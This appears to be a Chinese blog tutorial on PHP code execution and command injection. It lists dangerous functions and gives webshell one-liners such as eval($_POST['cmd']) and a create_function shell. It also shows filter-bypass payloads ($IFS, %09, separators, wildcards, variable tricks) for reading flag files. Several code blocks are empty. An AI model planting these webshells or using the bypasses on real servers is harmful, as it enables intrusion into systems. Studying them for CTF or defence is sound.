

~
前言
首先需要注意：命令注入（command Injection）和远程代码执行RCE（remote command/code execute）是不同的。远程代码执行是调用服务器使用的后端代码（如PHP,PYTHON,JAVA）进行执行，而命令注入则是调用系统(linux,windows)命令进行执行。
代码执行函数
常见的PHP代码命令函数：
- ${php代码};
- assert
- eval
- preg_replace
- call_user_func
- call_user_func_array
- array_map
- …
${}代码执行
格式：${php代码};
1 | ${phpinfo()}; //执行phpinfo |
eval函数
eval ( string $code ) : mixed
eval() 函数把字符串按照 PHP 代码来执行，该字符串必须是合法的 PHP 代码，且必须以分号结尾。
1 |
|
常见的一句话木马也是采用eval函数
1 | eval($_POST["cmd"]); |
assert函数
assert ( mixed $assertion [, Throwable $exception ] ) : bool
assert检查一个断言是否为 FALSE，如果 assertion 是字符串，它将会被 assert() 当做 PHP 代码来执行。
1 | assert(phpinfo()); |
注意：在PHP7中assert变成了一种语言结构而不是一个函数，不在支持可变函数，意味着不再支持?a=assert&b=phpinfo()
1 |
|
preg_replace函数
preg_replace(mixed $pattern，mixed $replacement，mixed $subject[，int $limit = -1 [,int &$count]]):mixed
preg_replace执行一个正则表达式的搜索和替换，当$pattern为/e，会把replacement参数当成PHP代码执行
1 |
|
注：在PHP7中不再支持 /e修饰符
create_function函数
string create_function ( string $args， string $code )
创建一个匿名函数，create_function函数会在内部执行eval()
1 |
|
等价于
1 |
|
可以利用该函数构造webshell，?cmd=phpinfo();
1 | $func =create_function('',$_GET['cmd']);$func(); |
注：从PHP 7.2.0开始，create_function()被废弃
call_user_func函数
call_user_func ( callable $callback [, mixed $parameter [, mixed $... ]] ) : mixed
call_user_func 第一个参数 callback 是被调用的回调函数，其余参数是回调函数的参数。
1 |
|
利用方式：?cmd=phpinfo()
1 | call_user_func(assert,$_GET['cmd']); |
call_user_func_array函数
call_user_func_array ( callable $callback , array $param_arr ) : mixed
把第一个参数作为回调函数（callback）调用，把参数数组作（param_arr）为回调函数的的参数传入。
1 |
|
利用方式 ?cmd=phpinfo()
1 |
|
array_map函数
array_map ( callable $callback , array $array1 [, array $... ] ) : array
array_map()：返回数组，是为 array1 每个元素应用 callback函数之后的数组。 callback 函数`形参的数量和传给 array_map() 数组数量，两者必须一样。
1 |
|
利用方法： ?a=assert&b=phpinfo();
1 |
|
命令注入
常见的PHP命令注入
- system
- exec
- shell_exec
- passthru
- proc_open
- popen()
- …
system函数
system ( string $command [, int &$return_var ] ) : string
最常见的命令执行函数system，可以调用当前系统的命令，并且输出执行结果
1 | system("ls"); |
exec函数
exec ( string $command [, array &$output [, int &$return_var ]] ) : string
exec() 执行 command 参数所指定的命令。
1 | echo exec("whoami"); |
shell_exec函数
shell_exec ( string $cmd ) : string
通过 shell 环境执行命令，并且将完整的输出以字符串的方式返回（当 PHP 运行在 安全模式 时，不能使用此函数。 ）
1 | echo shell_exec('whoami'); |
注：反引号 ` ` 实际上就是调用该函数
passthru函数
passthru ( string $command [, int &$return_var ] ) : void
执行外部程序并且显示原始输出
1 | passthru("whoami") |
绕过姿势
这么危险的函数能禁用就禁用，但是有的时候开发需要使用，那么就只能禁用参数，如果开发者使用黑名单，那么就存在被绕过的风险。
空格绕过
在ban掉空格的情况下，可以使用字符进行替换
<$IFS$9$9只是当前系统shell进程的第九个参数的持有者，它始终为空字符串${IFS}%09
1 | root@gnq:~# cat<flag.txt |
%09绕过

符号绕过
&&只有前面的命令执行成功，才执行拼接后面的命令||只有前面的命令执行失败，才执行拼接后面的命令|管道符，将左边输出的内容作为右边的命令的输入，所以左边的内容并不输出&将此进程设置为后台进程;命令分隔符{}绕过
1 | root@gnq:~# whoami && cat flag.txt |
通配符绕过
*代表0到无穷个任意字符?一个任意字符[ - ]表示在这个区间的任意字符，如[a-z]表示a到z的26个字符[^]表示取反，如[^a]表示非a字符
1 | root@gnq:~# cat fl*g.txt |
关键字绕过
- 变量绕过
- 编码绕过
- 反斜杠
- 拼接符
- 历史命令绕过
$*、$@、$x（x表示1-9）、${x}（x为任意值）,在没有传参的情况下，这些特殊变量都是为空
1 | //变量绕过 |
利用历史命令绕过
1 | root@gnq:~# ca |
参考（侵删）
https://blog.csdn.net/JBlock/article/details/88311388
https://www.dazhuanlan.com/2019/12/09/5dee3e1273f03/
https://xz.aliyun.com/t/3918